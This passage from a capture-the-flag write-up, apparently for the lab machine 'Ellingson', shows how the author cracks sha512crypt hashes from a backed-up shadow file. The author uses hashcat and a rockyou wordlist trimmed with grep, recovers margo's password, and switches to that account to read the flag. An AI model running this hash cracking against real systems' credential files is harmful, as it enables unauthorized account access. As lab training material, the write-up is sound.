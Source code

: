     
    
    root@kali# hashcat --example-hashes | grep -F '$6$' -B 1
    MODE: 1800
    TYPE: sha512crypt $6$, SHA512 (Unix)
    HASH: $6$72820166$U4DVzpcYxgw7MVVDGGvB2/H5lRistD5.Ah4upwENR5UtffLR4X4SxSzfREv8z6wVl0jRFX40/KnYVvK4829kD1
    

The password for theplague did break as “password123”, but it didn’t prove to
provide any value.

### Tuning Wordlist

I had the hint from the front of the website talking about common passwords
with “Love, Secret, Sex and God”. So I created a custom list with case
insensitive (`-i`) `grep` and `rockyou`, which reduced the overall list to
about 2% of the original `rockyou.txt`:

    
    
    root@kali# grep -i -e love -e secret -e sex -e god /usr/share/wordlists/rockyou.txt > grepped_rockyou 
    
    root@kali# wc -l /usr/share/wordlists/rockyou.txt grepped_rockyou 
     14344392 /usr/share/wordlists/rockyou.txt
       277308 grepped_rockyou
     14621700 total
    

### Cracking Again

I ran `hashcat` with this new wordlist, and got a match:

    
    
    root@kali# hashcat -m 1800 shadow.bak grepped_rockyou --force
    ...[snip]...
    $6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:iamgod$08
    ...[snip]...
    

That’s margo’s password, “iamgod$08”.

### su / ssh

With that password, I can both `su` from hal or ssh in as margo:

    
    
    hal@ellingson:/var/backups$ su - margo
    Password: 
    margo@ellingson:~$ id
    uid=1002(margo) gid=1002(margo) groups=1002(margo)
    

And now I can grab user.txt:

    
    
    margo@ellingson:~$ cat user.txt 
    d0ff9e3f...
    